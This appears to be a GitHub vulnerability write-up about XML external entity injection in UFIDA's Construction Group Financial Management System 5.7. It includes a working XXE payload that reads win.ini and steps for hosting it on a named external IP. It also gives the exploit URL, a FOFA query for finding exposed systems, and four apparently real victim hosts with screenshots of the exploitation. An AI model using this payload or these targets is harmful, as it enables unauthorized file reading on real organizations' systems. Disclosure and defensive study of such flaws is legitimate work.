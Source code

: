 # There is xml external entity injection in UF Corps Construction Group Financial Management System 5.7



UFIDA Construction Engineering Group Financial Management System 5.7 has arbitrary file reading caused by xml external entity injection.



FOFA：`title=="兵团建工集团财务管理系统5.7"`



Create a `2.xml` file on the server and write the following content:

```xml
<?xml version="1.0"?>
<!DOCTYPE test [<!ENTITY name SYSTEM "file:///c://windows/win.ini">]>
<user>
        <username>&name;</username>
        <password>1</password>
</user>
```

(If it is a Linux system, just change the file:/// parameter yourself)



After creation, start the http service:

```shell
python3 -m http.server 9999
```

The server IP used during testing is: 8.219.253.99



POC：

```
/uapws/service/nc.itf.bd.crm.IPsndocExportToCrmService?xsd=http://8.219.253.99:9999/2.xml
```





Case1：http://60.13.174.210:7080/

![image-20240311112218011](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240311112218011.png)

![image-20240311112242703](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240311112242703.png)



Case2：http://117.146.57.215:7080/

![image-20240311112306012](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240311112306012.png)

![image-20240311112322561](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240311112322561.png)



Case3：http://nmcbrouter.xbjg.com:7080/

![image-20240311112355470](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240311112355470.png)

![image-20240311112412632](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240311112412632.png)



Case4：http://nlhkxrrdhl.xbjg.com:7080/

![image-20240311112450690](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240311112450690.png)

![image-20240311112509886](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240311112509886.png)